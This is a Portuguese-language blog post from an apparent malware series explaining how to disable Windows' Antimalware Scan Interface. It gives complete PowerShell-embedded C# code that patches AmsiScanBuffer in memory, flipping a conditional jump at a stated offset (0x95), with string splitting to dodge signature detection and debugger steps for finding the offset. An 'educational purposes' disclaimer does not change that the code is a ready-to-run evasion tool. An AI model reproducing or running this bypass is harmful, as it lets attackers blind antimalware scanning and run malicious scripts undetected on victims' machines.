 ```yaml
---
weight: 8
title: "Post VIII: Patch AMSI"
date: 2024-07-25T15:58:26+08:00
lastmod: 2024-07-25T15:58:26+08:00
draft: false
author: Vith0r
authorLink: https://github.com/Vith0r
description: Reverse Shell Simples.
images: 
resources:
  - name: featured-image
    src: Image.jpeg
tags:
  - Malware
categories:
  - Malware
lightgallery: true
toc:
  auto: false
---
```


Bom, neste post estarei mostrando como realizar uma técnica para fazer um patch na `amsi.dll` do Windows10.

## O que é a AMSI.DLL

`Antimalware Scan Interface` é uma biblioteca do Windows que fornece uma interface padrão para permitir que aplicativos e serviços solicitem verificações antimalware em conteúdo carregado.
Um exemplo comum de uso da `amsi.dll` é na utilização do PowerShell para executar scripts. Quando um script é executado, a AMSI pode escanear o conteúdo do script para detectar e bloquear comandos potencialmente perigosos antes que eles sejam executados.
Abaixo, uma imagem para melhor entendimento:

![](https://telegra.ph/file/fd0546b0f37e24f04c80d.png)

> [!warning] warning 
> As informações que você encontrar neste post, técnicas, códigos, provas de conceito ou qualquer outra coisa são estritamente para fins educacionais.

Para contornarmos isso, podemos fazer com que o `AMSI` execute muitas verificações de validação antes de atingir o código crítico de "verificação" do `AMSI`. Podemos debugar a `AMSI.dll` no `ida64.exe`. Temos apenas que encontrar o ponto crítico.
Abaixo, uma imagem para melhor entendimento:

![](https://telegra.ph/file/fc8340db699810552c51b.png)

![](https://telegra.ph/file/0366a7876f00425d4d148.png)

Para isso podemos simplesmente alternar um dos `JZ`/`JE` para `JNZ`/`JNE`, para entender melhor saiba que `0x74` = `JZ`/`JE` e `0x75` = `JNZ`/`JNE` o código para realizar o patch esta abaixo:

```csharp
$data = @"
using System;
using System.Runtime.InteropServices;
using System.Threading;

public class Program
{
	[DllImport("kernel32")]
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
	[DllImport("kernel32")]
	public static extern IntPtr LoadLibrary(string name);
	[DllImport("kernel32")]
	public static extern bool VirtualProtect(IntPtr lpAddress, UInt32 dwSize, uint flNewProtect, out uint lpflOldProtect);
	public static void Run()
	{
		IntPtr lib = LoadLibrary("a"+"m"+"si."+"dll");
		IntPtr amsi = GetProcAddress(lib, "Am"+"s"+"iScan"+"B"+"uffer");
		IntPtr final = IntPtr.Add(amsi, ?);
		uint old = 0;
		VirtualProtect(final, (UInt32)0x1, 0x40, out old);

		Console.WriteLine(old);
		byte[] patch = new byte[] { 0x75 };

		Marshal.Copy(patch, 0, final, 1);

		VirtualProtect(final, (UInt32)0x1, old, out old);
	}
}
"@

Add-Type $data -Language CSharp 

[Program]::Run()

```

Abaixo está uma explicação mais detalhada para entender o código:

## Obter o Endereço da Função "AmsiScanBuffer"
Começamos pegando o endereço da função `AmsiScanBuffer` carregada na DLL `amsi.dll`:

```csharp
IntPtr lib = LoadLibrary("a" + "m" + "si." + "dll");
IntPtr amsi = GetProcAddress(lib, "Am" + "s" + "iScan" + "B" + "uffer");
```
### Calcular o Endereço Final

Somamos `?` ao endereço de `AmsiScanBuffer` para obter o endereço `final`, que contém a instrução `JZ/JE`:

```csharp
IntPtr final = IntPtr.Add(amsi, ?);
```
### Alterar a Permissão de Memória

Alteramos a permissão de memória do endereço final para permitir escrita, então saiba que `0x40` é `PAGE_EXECUTE_READWRITE`. e então exibimos a permissão de memória anterior:

```csharp
uint old = 0;
VirtualProtect(final, (UInt32)0x1, 0x40, out old);
Console.WriteLine(old);
```
### Aplicar o Patch

Mudamos os primeiros bytes do endereço final para `0x75`, que altera a instrução para `JNZ`/`JNE`:

```csharp
byte[] patch = new byte[] { 0x75 };
Marshal.Copy(patch, 0, final, patch.Length);
```
## Primeiro passo:

![](https://telegra.ph/file/91d6fdc54ae0031f315c1.png)
### Segundo passo:
Aqui apenas definimos um BreakPoint para acharmos o endereço do `AmsiScanBuffer`.<br> depois presionamos `ctrl + b` colamos o hex que copiamos para então encontrar o endereço do `JZ`/`JE` que precisamos copiar:

![|750x509](https://telegra.ph/file/d15b4032834ce00374c9b.png)
### Terçeiro passo:
Aqui fazemos um calculo simples `Endereço do "AmsiScanBuffer"` + `Endereço do "JZ/JE"` que queremos modificar para `JNZ`/`JNE`:

![](https://telegra.ph/file/536b460067ccd8f58d941.png)
### Quarto passo:
Agora que sabemos quanto temos que adicionar `0x95` ao endereço do `AmsiScanBuffer` para chegar no endereço final `JZ/JE`, apenas o adicionamos no código:

```csharp
IntPtr final = IntPtr.Add(amsi, 0x95);
```

### Entendendo o processo:
Agora que terminamos de achar tudo que precisávamos, vamos executar o código no próprio PowerShell. ao executar nosso código, ele fará o seguinte: obterá o endereço de `AmsiScanBuffer`, adicionará `0x95` ao endereço para chegar ao endereço final `JZ/JE`, alterará as permissões para `0x40`, que corresponde a `PAGE_EXECUTE_READWRITE`, mudará o byte de `0x74` para `0x75`, que altera o `JZ/JE` para `JNZ/JNE`, e restaurará as permissões de memória originais para garantir que nosso patch seja realizado com sucesso.
## Realizando o patch:

![|750x464](https://telegra.ph/file/5100d6f4aeafe8a89a9c6.png)
